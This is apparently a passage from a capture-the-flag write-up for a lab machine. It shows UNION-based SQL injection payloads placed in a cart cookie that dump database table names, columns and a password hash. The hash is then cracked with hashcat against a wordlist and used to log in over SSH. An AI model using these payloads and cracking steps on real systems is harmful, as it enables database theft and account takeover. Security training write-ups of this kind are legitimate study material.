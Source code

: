 ```bash
request: custom_cart={"sqlihere'UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables-- -":"1","2E6E8GXJ":"1"}
response: ALL_PLUGINS,APPLICABLE_ROLES,CHARACTER_SETS,CHECK_CONSTRAINTS,COLLATIONS,COLLATION_CHARACTER_SET_APPLICABILITY,COLUMNS,COLUMN_PRIVILEGES,ENABLED_ROLES,ENGINES,EVENTS,FILES,GLOBAL_STATUS,GLOBAL_VARIABLES,KEYWORDS,KEY_CACHES,KEY_COLUMN_USAGE,OPTIMIZER_TRACE,PARAMETERS,PARTITIONS,PLUGINS,PROCESSLIST,PROFILING,REFERENTIAL_CONSTRAINTS,ROUTINES,SCHEMATA,SCHEMA_PRIVILEGES,SESSION_STATUS,SESSION_VARIABLES,STATISTICS,SQL_FUNCTIONS,SYSTEM_VARIABLES,TABLES,TABLESPACES,TABLE_CONSTRAINTS,TABLE_PRIVILEGES,TRIGGERS,USER_PRIVILEGES,VIEWS,CLIENT_STATISTICS,INDEX_STATISTICS,INNODB_SYS_DATAFILES,GEOMETRY_COLUMNS,INNODB_SYS_TABLESTATS,SPATIAL_REF_SYS,INNODB_BUFFER_PAGE,INNODB_TRX,INNODB_CMP_PER_INDEX,INNODB_METRICS,INNODB_LOCK_WAITS,INNODB_CMP,THREAD_POOL_WAITS,INNODB_CMP_RESET,THREAD_POOL_QUEUES,TABLE_STATISTICS,INNODB_SYS_FIELDS,INNODB_BUFFER_PAGE_LRU,INNODB_LOCKS,INNODB_FT_INDEX_TABLE,INNODB_CMPMEM,THREAD_POOL_GROUPS,INNODB_CMP_PER_INDEX_RESET,INNODB_SYS_FOREIGN_COLS,INNODB_FT_INDEX_CACHE,INNODB_BUFFER_POOL_STATS,INNODB_FT_BEING_DELETED,INNODB_SYS_FOREIGN,INNODB_CMPMEM_RESET,INNODB_FT_DEFAULT_STOPWORD,INNODB_SYS_TABLES,INNODB_SYS_COLUMNS,INNODB_FT_CONFIG,USER_STATISTICS,INNODB_SYS_TABLESPACES,INNODB_SYS_VIRTUAL,INNODB_SYS_INDEXES,INNODB_SYS_SEMAPHORE_WAITS,INNODB_MUTEXES,user_variables,INNODB_TABLESPACES_ENCRYPTION,INNODB_FT_DELETED,THREAD_POOL_STATS,user,product

## COLUMNS
request: custom_cart={"sqlihere'UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_name = 'user'-- -":"1","2E6E8GXJ":"1"}
response: id,username,password

## EXTRACT DATA
request: custom_cart={"sqlihere'UNION SELECT 1,group_concat(username,0x3a,password),3 FROM user-- -":"1","2E6E8GXJ":"1"}
response: james_mason:fc895d4eddc2fc12f995e18c865cf273
```

Write that user + hash to file and crack with hashcat. 
```bash
➜  shared cat james_mason.hash                                                 
james_mason:fc895d4eddc2fc12f995e18c865cf273

➜  shared hashcat -a0 -m0 james_mason.hash /usr/share/wordlists/rockyou.txt --user

[... snip ...]
fc895d4eddc2fc12f995e18c865cf273:Soleil101                
Session..........: hashcat
Status...........: Cracked
```

Test credentials over SSH:
```bash
➜  shared ssh james_mason@shared.htb
james_mason@shared.htb password: Soleil101

james_mason@shared:~$ id && cat user.txt
uid=1000(james_mason) gid=1000(james_mason) groups=1000(james_mason),1001(developer)
cat: user.txt: No such file or directory
```

`user.txt` is sadly not in the possesion of james', so it looks like we need to move laterally. From `id` we can see that james have a non-standard group `developer`, lets dig deeper into this.
